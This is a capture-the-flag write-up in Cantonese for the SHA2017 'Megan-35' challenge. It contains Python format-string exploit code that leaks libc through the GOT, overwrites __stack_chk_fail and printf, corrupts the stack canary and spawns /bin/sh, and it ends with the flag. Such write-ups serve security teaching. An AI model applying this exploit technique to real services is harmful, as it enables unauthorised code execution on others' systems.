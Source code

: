 # SHA2017 Megan-35

呢題其實唔難,如果比賽個陣熟canary,根本就係coding challenge同小學生加減數問題:0)

呢條問題主要係一個input megan-35 encrypted message,output decrypted message 嘅service

有format string bug


由於佢有開canary,我地可以寫爛個canary,check sec fail同printf, 跳返去main再input /bin/sh, run system("/bin/sh")


首先用ida搵 canary address:


![alt text](1.png)



用stack dump數到第135號位save左 canary,71號位開始save printf of decrypted message



![alt text](2.png)



由於提供libc同冇aslr,所以可以利用GOT再寫printf去71號位,揾libc offset,再搵返system server side address:


![alt text](3.png)

不過由於直接讀%71$p 只會出返個printf got address,所以要send 70個%, 再dereference 71號位by %s 

```python
#dereference by %s

payload+='%p'*70+'--'+'%s'

printf_addr=int(r.recv(1024).split('--')[-1][:4][::-1].encode('hex'),16)

```

之後就寫stack_check_fail做main,寫printf做system



最後一步,寫canary

![alt text](2.png)


係stack dump一眼就見到139號位有個近似stack address嘅物體


於是用local 139 save個個address 減返canary($ebp-0x1c)

得到 0x34


send %139$p 求server side 139 stored address,


canary: 0xffffdd9c=0xffffddd0-0x34



Format String payload

```python
#Step 1 write stack chk fail to main
payload =p32(stack_check_fail_got)
payload+=p32(stack_check_fail_got+1)
payload+=p32(stack_check_fail_got+2)
payload+=p32(stack_check_fail_got+3)

#Step 2 write printf to system
payload+=p32(printf_got)
payload+=p32(printf_got+1)
payload+=p32(printf_got+2)
payload+=p32(printf_got+3)

#test arg 139
#-0x34
#address of canary
#send %139$p
#return 0xffffddd0
#from gdb, we know the difference between canary and %139$p is 0x34,
#so 0xffffdd9c=0xffffddd0-0x34

payload+=p32(0xffffdd9c)

#36 is the length of the payload above

fmt= '%188c%71$hhn'# 0xe0-36=188  writen to position 71
fmt+='%164c%72$hhn'# 0x84-0xe0=
fmt+='%128c%73$hhn'# 0x04-0x84=
fmt+='%4c%74$hhn'# 0x08-0x04

#system_server=0xf7e53940
fmt+='%56c%75$hhn'# 0x40-0x08=
fmt+='%249c%76$hhn'# 0x39-0x40=
fmt+='%172c%77$hhn'# 0xe5-0x39=
fmt+='%18c%78$hhn'  # 0xf7-0xe5=

#9 write canary
fmt+='%11c%79$hhn'
```

由於hhn 係根據%之前string 嘅length,再寫strelen去個address

加上canary頭一個byte係 \x00,所以求其寫d非0嘅野上去已經可以corrupt佢


# Flag:
![alt text](megan.png)

```
flag{43eb404b714b8d22e1168775eba1669c}
```

慘


Reference
==========================
1.http://veritas501.space/2017/04/28/%E8%AE%BAcanary%E7%9A%84%E5%87%A0%E7%A7%8D%E7%8E%A9%E6%B3%95/

2.https://hgarrereyn.gitbooks.io/th3g3ntl3man-ctf-writeups/content/2017/SHA2017CTF/problems/pwnable/megan-35/

3.https://b0tchsec.com/2017/sha2017/megan-35

4.https://chung96vn.blogspot.hk/2017/08/sha2017-write-up-pwn-200.html

5.https://github.com/L4ys/CTF/blob/master/sha_2017/pwn200/exp.py

